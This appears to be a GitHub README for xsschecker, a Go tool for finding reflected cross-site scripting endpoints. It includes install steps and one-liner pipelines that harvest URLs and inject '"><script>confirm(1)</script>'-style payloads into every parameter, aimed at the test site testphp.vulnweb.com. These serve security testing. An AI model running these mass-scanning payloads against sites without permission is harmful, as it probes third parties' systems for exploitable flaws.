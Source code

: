 ```
 _  _  ____  ____   ___  _  _  ____  ___  __ _  ____  ____ 
( \/ )/ ___)/ ___) / __)/ )( \(  __)/ __)(  / )(  __)(  _ \
 )  ( \___ \\___ \( (__ ) __ ( ) _)( (__  )  (  ) _)  )   /
(_/\_)(____/(____/ \___)\_)(_/(____)\___)(__\_)(____)(__\_)
```

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```
go install github.com/rix4uni/xsschecker@latest
```
or

```
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker ~/go/bin/xsschecker
```
## Usage
```
go run xsschecker.go -h
Usage: xsschecker [OPTIONS]

Options:
  -match string
        The string to match against the domain response. (required)
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Reflected XSS Mass Automation
```
cat subs.txt | waybackurls >> waybackurls-urls.txt
cat subs.txt | gau >> gau-urls.txt
cat live-subs.txt | hakrawler -scope >> hakrawler-urls.txt
cat waybackurls-urls.txt gau-urls.txt hakrawler-urls.txt | anew -q urls.txt

cat urls.txt | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```

## Reflected XSS Oneliner Command1
```
echo "testphp.vulnweb.com" | waybackurls | gf xss | uro | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command2
```
echo "testphp.vulnweb.com" | waybackurls | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln

or

echo "testphp.vulnweb.com" | waybackurls | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>, "<image/src/onerror=confirm(1)>' -vuln
```

## Reflected XSS Oneliner Command1 and Reflected XSS Oneliner Command2 Results Comparison
![image](https://github.com/rix4uni/xsschecker/assets/72344025/8034668c-42c3-47b1-9fee-5a58c2c96d63)

